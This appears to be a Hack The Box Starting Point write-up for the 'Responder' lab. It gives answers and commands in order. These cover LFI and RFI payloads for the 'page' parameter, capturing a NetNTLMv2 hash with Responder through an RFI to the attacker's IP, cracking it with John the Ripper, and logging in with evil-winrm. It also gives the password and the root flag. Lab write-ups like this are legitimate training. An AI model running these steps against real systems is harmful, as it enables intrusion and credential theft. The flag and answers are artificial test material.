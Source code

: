 ```yaml
---
layout: post
title: "[HTB - Starting Point] Responder"
date: 2022-10-16 09:00:00 +0800
categories: HTB
tags: [HTB, Starting Point]
---
```


## Task 1  
Q : When visiting the web service using the IP address, what is the domain that we are being redirected to?  
A : unika.htb  
Note : In order to view the website, add unika.htb domain into hosts file.

## Task 2  
Q : Which scripting language is being used on the server to generate webpages?  
A : PHP  
Note : Use wappalyzer  

## Task 3  
Q : What is the name of the URL parameter which is used to load different language versions of the webpage?  
A : page  
Note : Observe the url after language changed.

## Task 4  
Q : Which of the following values for the 'page' parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"  
A : ../../../../../../../../windows/system32/drivers/etc/hosts  
Note : By replacing the 'page' parameter, you can exec/read files on the system.

## Task 5  
Q : Which of the following values for the 'page' parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"  
A : //10.10.14.6/somefile  
Note : By replacing the 'page' parameter, you can exec/read files on the remote system via the target.

## Task 6  
Q : What does NTLM stand for?  
A : New Technology LAN Manager  

## Task 7  
Q : Which flag do we use in the Responder utility to specify the network interface?  
A : -I  

## Task 8  
Q : There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as 'john', but the full name is what?.  
A : john the ripper  

## Task 9  
Q : What is the password for the administrator user?  
``` text
[host] # responder -I <your_vpn_interface>
modify the 'page' parameter to '//<your_host_ip>/file_name'
your responder should print [SMB] NTLMv2-SSP messages.
save the hash content to a file, let's name it 'pswd'.
[host] # john --wordlist=<your_path_to_rockyou.txt> pswd
```
A : badminton  

## Task 10  
Q : We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?  
``` text
[host] # nmap -sVC -p- --open 10.129.76.195 -oA Responder_full_scan
```
A : 5985  

## SUBMIT FLAG  
Q : Submit root flag  
``` text
[host] # evil-winrm -i <target_ip> -u administrator -p badminton
*Evil-WinRM* PS C:\Users\mike\Desktop> type flag.txt
```
A : ea81b7afddd03efaa0945333ed147fac  